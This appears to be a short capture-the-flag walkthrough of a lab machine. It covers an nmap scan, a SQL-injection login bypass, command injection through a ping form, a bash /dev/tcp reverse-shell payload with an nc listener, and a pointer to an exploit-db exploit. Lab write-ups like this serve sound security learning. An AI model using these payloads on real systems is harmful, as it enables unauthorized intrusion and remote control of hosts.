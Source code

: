 Steps:

Run namp for port scanning:

```bash
nmap -sC -sV <ip> -oN nmap
```

![port scan](./portscan.png)

## http

* There is a login page in place 

 Checking for sql injection
 ```
 ' or 1=1 --
 ```

 It worked we see a text box to send in ip's for ping command.

 My first though it that the input is directly appended to ping command, 

 ```
 command = "ping" . $text_input
 ```

 Verifying the hypothesis
 ```
 <ip>; id
 ```
![id](id.png)

### Payload:
```
192.168.126.129; bash -i >& /dev/tcp/192.168.126.129/9090 0>&1
```

### Listner:
```
nc -nvlp 9090
```
 We have a shell!!! (apache)

Check the version and after some googling I found a exploit
```
https://www.exploit-db.com/exploits/9542
```